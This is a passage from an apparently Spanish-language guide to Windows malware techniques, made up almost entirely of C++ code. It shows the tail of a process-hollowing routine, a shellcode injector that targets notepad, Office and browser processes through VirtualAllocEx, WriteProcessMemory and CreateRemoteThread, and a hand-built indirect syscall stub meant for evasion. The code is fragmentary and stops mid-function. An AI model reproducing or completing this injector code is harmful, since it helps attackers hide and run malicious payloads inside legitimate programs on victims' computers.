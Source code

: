 ```cpp
    
    // 9. Reanudar la ejecución del proceso
    ResumeThread(pi.hThread);
    
    return true;
}
```

#### 3.2 Inyección en Proceso Remoto
```cpp
bool InjectIntoProcess(unsigned char* shellcode, DWORD size) {
    // 1. Buscar procesos objetivo
    const char* targetProcesses[] = {
        "notepad.exe", "mspaint.exe", "write.exe", "winword.exe", "excel.exe",
        "chrome.exe", "firefox.exe", "msedge.exe", "iexplore.exe", 
    };
    
    // 2. Abrir el proceso con permisos adecuados
    process = APIs.OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_WRITE | 
                              PROCESS_CREATE_THREAD, FALSE, processEntry.th32ProcessID);
    
    // 3. Asignar memoria en el proceso remoto
    LPVOID remoteMem = APIs.VirtualAllocEx(process, NULL, size, MEM_COMMIT | MEM_RESERVE, 
                                          PAGE_EXECUTE_READWRITE);
    
    // 4. Escribir shellcode en el proceso remoto
    APIs.WriteProcessMemory(process, remoteMem, decryptedShellcode, size, NULL);
    
    // 5. Crear hilo remoto para ejecutar el shellcode
    HANDLE thread = APIs.CreateRemoteThread(process, NULL, 0, 
                                           (LPTHREAD_START_ROUTINE)remoteMem, NULL, 0, NULL);
    
    return true;
}
```

### 4. Técnicas de Ejecución

#### 4.1 Syscall Indirectas
```cpp
NTSTATUS DynamicSyscall(DWORD syscallNumber, HANDLE ProcessHandle, PVOID* BaseAddress, 
                       ULONG_PTR ZeroBits, PSIZE_T RegionSize, ULONG AllocationType, ULONG Protect) {
    // Construir syscall stub dinámico
    BYTE syscallStub[] = {
        0x4C, 0x8B, 0xD1,               // mov r10, rcx
        0xB8, 0x00, 0x00, 0x00, 0x00,   // mov eax, syscallNumber
        0x0F, 0x05,                     // syscall
        0xC3                            // ret
    };
    
    // Insertar número de syscall
    *(DWORD*)(syscallStub + 5) = syscallNumber;
    
    // Ejecutar stub
    void* execMem = VirtualAlloc(NULL, sizeof(syscallStub), MEM_COMMIT | MEM_RESERVE, 
                                PAGE_EXECUTE_READWRITE);
    memcpy(execMem, syscallStub, sizeof(syscallStub));
    
    typedef NTSTATUS(*SyscallFunc)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);
    SyscallFunc syscallFunc = (SyscallFunc)execMem;
    result = syscallFunc(ProcessHandle, BaseAddress, ZeroBits, RegionSize, 
                         AllocationType, Protect);
```